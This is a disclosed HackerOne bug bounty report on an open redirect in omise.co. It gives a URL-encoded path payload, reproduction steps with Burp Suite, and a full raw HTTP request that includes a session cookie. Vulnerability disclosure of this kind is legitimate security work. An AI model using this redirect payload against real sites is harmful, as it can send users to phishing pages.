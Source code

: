 # Open Redirect

## Report Details
- **Report ID**: 504751
- **URL**: https://hackerone.com/reports/504751
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-03-04T11:35:31.036Z
- **Disclosed**: 2019-03-25T09:42:19.665Z

## Reporter
- **Username**: jishnu_sudhakaran
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: omise

## Vulnerability Information
Open Redirect Vulnerability

URL  : https://www.omise.co////bing.com/?www.omise.co/?category=interview&page=2  
 
Parameter Type  : URL Rewrite  

Attack Pattern  : %2f%2f%2fr87.com%2f%3fwww.omise.co%2f  


How to Reproduce

1. Intercept the below url using Burpsuite & send it to repeater

https://www.omise.co/?category=interview&page=2

2. Use this attack pattern 

/%2f%2f%2fbing.com%2f%3fwww.omise.co

3. Now it will redirect to bing.com



Below i will give u the Rquest body & also attaching the screenshots


GET /%2f%2f%2fbing.com%2f%3fwww.omise.co/?category=interview&page=2 HTTP/1.1
Host: www.omise.co
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _omise-website_session=OHdwcEpSZVUvVXRqS3F3bUVyUUhaZ2pVY00wVWJ1c042RWZZNHdOendwUEkzS0dnaTJPb1hub3ZxcGhkUk5FNy96blpiNjJPL0hhMUZBdS9Jb2ZFY25BcWxzcXNjbTAyclJLTlo0VGUvbzBsa085MXhNUG9uZFpzRnBBeEp4a2MtLU9ONHdIWVBZdWZlS3VIVXVYTVNkOVE9PQ%3D%3D--cf8f4d43247d9eb5aa162a3f00fabc02bbda3b34
Upgrade-Insecure-Requests: 1

## Impact

An attacker can use this vulnerability to redirect users to other malicious websites, which can be used for phishing and similar attacks

## Attachments
- Omise.co.PNG
